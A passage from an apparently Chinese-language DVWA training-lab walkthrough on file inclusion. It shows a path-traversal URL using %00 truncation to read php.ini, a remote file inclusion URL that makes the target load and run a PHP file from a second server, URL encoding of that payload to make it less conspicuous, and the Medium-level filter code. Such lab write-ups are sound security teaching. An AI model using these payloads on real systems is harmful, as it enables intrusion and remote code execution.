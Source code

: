     2. http://<IP地址!!!>/dvwa/vulnerabilities/fi/?page=../../../../../../../../../phpStudy/PHPTutorial/WWW/DVWA/php.ini%0012.php

    使用 %00 截断可以绕过某些过滤规则,例如要求 page 参数的后缀必须为 php,这时链接 A 会读取失败,而链接 B 可以绕过规则成功读取.

**远程文件包含**

当服务器的 php 配置中,选项 allow_url_fopen 与 allow_url_include 为开启状态时,服务器会允许包含远程服务器上的文件,如果对文件来源没有检查的话,就容易导致任意远程代码执行.

在远程服务器 B 上传一个 phpinfo.txt 文件,内容如下
```php
<?php

phpinfo();

?>
```

构造url `http://<IP地址!!!>/dvwa/vulnerabilities/fi/?page=http://<服务器B IP地址!!!>/phpinfo.txt`

成功在服务器上执行了 phpinfo 函数

![](../../../../../assets/img/安全/实验/Web/靶场/dvwa/dvwa20.png)

为了增加隐蔽性,可以对 http://<服务器B IP地址!!!>/phpinfo.txt 进行 URL 编码

例如

`http://192.168.72.128/dvwa/vulnerabilities/fi/?page=http://192.168.72.138/phpinfo.txt`

可以编码为

`http://192.168.72.128/dvwa/vulnerabilities/fi/?page=%68%74%74%70%3a%2f%2f%31%39%32%2e%31%36%38%2e%37%32%2e%31%33%38%2f%70%68%70%69%6e%66%6f%2e%74%78%74` 同样可以执行成功

### Medium

**服务器端核心代码**
```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
$file = str_replace( array( "http://", "https://" ), "", $file );
$file = str_replace( array( "../", "..\"" ), "", $file );

?>
```

可以看到,Medium 级别的代码增加了 str_replace 函数,对 page 参数进行了一定的处理,将"http:// "、"https://"、 " ../"、"..\"替换为空字符,即删除.

**相关函数**
- **str_replace()**
	str_replace() 函数以其他字符替换字符串中的一些字符(区分大小写).
